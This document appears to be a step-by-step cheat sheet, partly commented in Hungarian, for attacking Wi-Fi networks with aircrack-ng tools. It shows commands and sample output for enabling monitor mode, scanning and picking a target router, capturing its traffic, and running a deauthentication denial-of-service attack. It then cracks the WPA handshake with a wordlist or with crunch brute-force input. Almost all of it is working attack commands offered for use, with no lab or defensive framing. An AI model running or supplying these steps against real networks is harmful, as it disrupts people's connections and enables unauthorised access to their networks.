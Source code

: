 # SHOW WLANS

	iwconfig

# START AIRMON MODE
# Megszakad a wifi kapcsolat, ha volt, elkezdünk monitorozni...
# 

### START

```
sudo airmon-ng start wlp6s0
```

### STOP

sudo airmon-ng stop wlp6s0mon


# MONITORING:

### Show: wlp6s0mon or your network interface...

	iwconfig

### Search Target mac adresses, pl: AA:BB:CC:DD:EE:FF

	sudo airodump-ng wlp6s0mon

# RESULT OF MONITORING:
# Choose your target
	 CH 14 ][ Elapsed: 54 s ][ 2020-08-12 19:18 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 AA:BB:CC:DD:EE:FF  -44       61      161    6  11  130        CCMP   PSK  Morfyum-m
 12:12:12:12:12:12  -44       61        3    0  11  130   OPN              WellHello
 33:33:33:33:33:33  -82       61        0    0   6  130   WPA2 CCMP   MGT  UPC Wi-Fr
 34:34:34:34:34:34  -81       55        7    0   6  130   WPA2 CCMP   PSK  UPC453905
 77:77:77:77:77:77  -85       25        0    0   6  270        CCMP   PSK  Telekom-0
 99:99:99:99:99:99  -88       18        0    0   1  130        CCMP   PSK  Telekom-W

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 AA:BB:CC:DD:EE:FF  EC:EC:EC:EC:EC:EC  -29    0 -24     19        5                  
 12:12:12:12:12:12  50:50:50:50:50:50  -46    0 - 0e     0        6                  
 33:33:33:33:33:33  22:22:22:22:22:22  -70    0e- 0e     0      440                  
 77:77:77:77:77:77  E8:E8:E8:E8:E8:E8   -1    1e- 0      0        1             


# TYPE YOUR TARGET BSSID, Channel (CH), and the capture file
## monitoring the router for a long time

```
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w ./test wlp6s0mon
```

# DOS ATTACK YOUR TARGET WIFI NETWORK

```
sudo aireplay-ng -0 4 -a AA:BB:CC:DD:EE:FF wlp6s0mon
```

# TWO PATH TO CRACK WIFI 

## 1. Is use a word file and attack wifi by .cap file
	# ADD WORDLIST AND TRY TO AUTHENTICATE

```
	sudo aircrack-ng ./test-01.cap -w ./wordlists/wordlist.txt
```

	# Tipikus hibaüzenet: 
	# Ez azért van, mert nem sikerült kellő adatot rögzíteni a .cap fájlba
	Packets contained no EAPOL data; unable to process this AP.

## 2. Use BSSID (mac) and STATION (mac) address, and give combination of letters and number

```
crunch 8 8 qwertzuiopasdfghjklyxcvbnm123456789 | aircrack-ng -w - ./test-01.cap --bssid AA:BB:CC:DD:EE:FF
```
